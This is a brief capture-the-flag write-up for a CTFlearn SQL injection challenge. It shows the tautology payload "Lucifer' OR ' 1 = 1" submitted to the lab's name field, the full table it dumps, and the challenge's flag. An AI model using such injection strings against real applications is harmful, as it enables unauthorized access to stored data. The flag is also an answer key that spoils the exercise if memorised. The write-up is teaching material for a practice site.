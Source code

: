 <h1> Basic Injection </h1>

Problem Statement: <br>
See if you can leak the whole database using what you know about SQL Injections. <br>

Step-1: <br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it.

Step-2: <br>
Inspect the input text box. <br>
You will find the line given below. <br>
<code> Try some names like Hiroki, Noah, Luke </code>

Step-3: <br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br>
I submitted the input <code> Lucifer' OR ' 1 = 1 </code> and got the following output: <br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec \n
Data: Steam boys. \n
Name: Jalen \n
Data: Pump that iron fool. \n
Name: Eric \n
Data: I make cars. \n
Name: Sam \n
Data: Thinks he knows SQL. \n
Name: fl4g__giv3r \n
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} \n
Name: snoutpop \n
Data: jowls \n
Name: Chunbucket \n
Data: @datboiiii \n
</pre>

Step-4: <br>
The desired flag <code>CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
